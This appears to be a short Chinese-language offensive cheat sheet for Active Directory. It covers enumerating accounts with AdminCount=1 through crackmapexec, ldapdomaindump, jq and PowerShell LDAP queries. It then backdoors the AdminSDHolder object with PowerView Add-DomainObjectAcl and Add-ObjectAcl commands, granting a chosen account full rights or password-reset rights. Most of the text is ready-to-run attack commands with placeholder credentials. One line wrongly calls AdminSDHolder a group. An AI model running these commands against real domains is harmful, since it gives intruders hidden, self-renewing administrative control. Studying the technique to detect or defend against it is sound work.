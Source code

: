 	如果您不希望每小时都覆盖修改过的 ACL，则应更改对象上的 ACL 模板CN=AdminSDHolder,CN=System或将所需对象的"AdminCount属性设置为0
	当用户被分配到任何特权组时， AdminCount 属性自动设置为1，但当用户从这些组中删除时，它永远不会自动取消设置。
	使用 查找用户AdminCount=1
	>crackmapexec ldap 10.10.10.10 -u username -p password --admin-count
	或
	>python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
	>jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
	或
	>Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
	>Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
	或
	>([adsisearcher]"(AdminCount=1)").findall()
 ### AdminSDHolder
  	将用户添加到 AdminSDHolder 组
	>Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose
	赋予账号titi为toto重置密码的权利
	>Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword
	赋予所有权利
	>Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All